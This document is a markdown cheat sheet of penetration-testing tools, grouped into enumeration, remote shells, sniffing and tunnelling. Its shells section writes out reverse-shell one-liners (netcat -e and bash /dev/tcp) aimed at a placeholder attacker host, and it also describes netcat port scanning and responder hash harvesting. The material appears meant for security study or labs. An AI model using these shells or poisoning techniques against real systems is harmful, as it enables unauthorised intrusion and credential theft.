 # Overview of Tools
## Enumeration
Tools for data gathering, analysis of infrastructure, enumeration. This includes tools like port scanning, service discovery, web content scanner.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| nmap | Port scanning | Scan for open ports and services, contains some scripts for automating tasks | Ports, Web, CVE |
| `for i in $(awk 'BEGIN { for ( i=1; i<=9999; i++ ) { print i; } }'); do nc -z -v <victim IP> $i; done` | Port scanning | Scan for ports in environments without nmap access | Ports, BusyBox, Shell, Alpine Linux |
| legion | NMAP GUI with some integrations | Scan for ports and open services, run NMAP scripts ans some service related tools | Ports, Web, CVE, GUI |
| dirb | Web content scanner | Crawls a webpage and finds hidden directories based on a wordlist | Wordlist, Web Content Scanner, Crawler, Directory |
| gobuster | Web content scanner, just brute force based with wordlists | Brute forces URIs and subdomains of a Web server | Wordlist, Web content scanner, Directory, DNS, Domains, URL |

## Remote access, Shells
Getting a shell and access to a target system.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| evil-winrm | A shell for Windows Remote Management focused on the evil side. It includes some tools for exploiting the target after gaining access. | WinRM shell access + exploiting target | WinRM, Remote Shell, Payloads, Exploiting |
| `netcat -lvp <port>` |  A netcat listener for incoming connections | Used for listening for the remote shell | Remote Shell, TCP, Listener |
| `netcat <attacker ip> <port> -e <the shell executable>` | Sends process output to a TCP connection and gets input from TCP connection | Used for opening a reverse shell (victim to target) on the target | Remote Shell, TCP |
| `bash -i >& /dev/tcp/<ATTACKER-IP>/<ATTACKER-PORT> 0>&1` | Sends process output to a TCP connection and gets input from TCP connection | Used for opening a reverse shell (victim to target) on the target if netcat is not usable for some reason (of if you don't want to download an extra file). It uses piping from bash to a tcp socket. | Bash, Reverse Shell, TCP |
| rlwrap | Readline wrapper | Make netcat use arrow keys | Netcat |

## Sniffing
Packet and network sniffing for various protocols.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| tcpdump | TCP, UDP, ICMP packet sniffer | Used to sniff connections | TCP, UDP, ICMP, Sniffing |
| responder | NBT-NS, LLMNR & MDNS Responder | Used to poison windows specific services, gathering password hashes from the service request (for example from NTLM) etc. | NTLM, Responder, Windows, NetBIOS, NBT-NS, LLMNR, Link-Local Multicast Name Resolution |

## Network tunneling
Tunnel Ports.
| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| chisel | A fast TCP/UDP tunnel over HTTP | Tunnel TCP/UDP Ports in environments without SSH | Tunneling, Port Forwarding |
